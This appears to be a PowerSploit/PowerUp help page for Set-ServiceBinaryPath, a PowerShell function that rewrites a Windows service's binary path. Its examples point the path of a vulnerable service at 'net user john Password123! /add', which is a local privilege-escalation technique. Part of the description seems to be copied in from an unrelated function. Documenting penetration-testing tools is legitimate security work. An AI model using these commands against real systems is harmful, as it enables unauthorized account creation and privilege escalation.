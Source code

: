 # Set-ServiceBinaryPath

## SYNOPSIS
Sets the binary path for a service to a specified value.

Author: Will Schroeder (@harmj0y), Matthew Graeber (@mattifestation)  
License: BSD 3-Clause  
Required Dependencies: PSReflect

## SYNTAX

```
Set-ServiceBinaryPath [-Name] <String[]> [-Path] <String>
```

## DESCRIPTION
Takes a service Name or a ServiceProcess.ServiceController on the pipeline and first opens up a
service handle to the service with ConfigControl access using the GetServiceHandle
Win32 API call.
ChangeServiceConfig is then used to set the binary path (lpBinaryPathName/binPath)
to the string value specified by binPath, and the handle is closed off.

Takes one or more ServiceProcess.ServiceController objects on the pipeline and adds a
Dacl field to each object.
It does this by opening a handle with ReadControl for the
service with using the GetServiceHandle Win32 API call and then uses
QueryServiceObjectSecurity to retrieve a copy of the security descriptor for the service.

## EXAMPLES

### -------------------------- EXAMPLE 1 --------------------------
```
Set-ServiceBinaryPath -Name VulnSvc -Path 'net user john Password123! /add'
```

Sets the binary path for 'VulnSvc' to be a command to add a user.

### -------------------------- EXAMPLE 2 --------------------------
```
Get-Service VulnSvc | Set-ServiceBinaryPath -Path 'net user john Password123! /add'
```

Sets the binary path for 'VulnSvc' to be a command to add a user.

## PARAMETERS

### -Name
An array of one or more service names to set the binary path for.
Required.

```yaml
Type: String[]
Parameter Sets: (All)
Aliases: ServiceName

Required: True
Position: 1
Default value: None
Accept pipeline input: True (ByPropertyName, ByValue)
Accept wildcard characters: False
```

### -Path
The new binary path (lpBinaryPathName) to set for the specified service.
Required.

```yaml
Type: String
Parameter Sets: (All)
Aliases: BinaryPath, binPath

Required: True
Position: 2
Default value: None
Accept pipeline input: False
Accept wildcard characters: False
```

## INPUTS

## OUTPUTS

### System.Boolean

$True if configuration succeeds, $False otherwise.

## NOTES

## RELATED LINKS

[https://msdn.microsoft.com/en-us/library/windows/desktop/ms681987(v=vs.85).aspx](https://msdn.microsoft.com/en-us/library/windows/desktop/ms681987(v=vs.85).aspx)

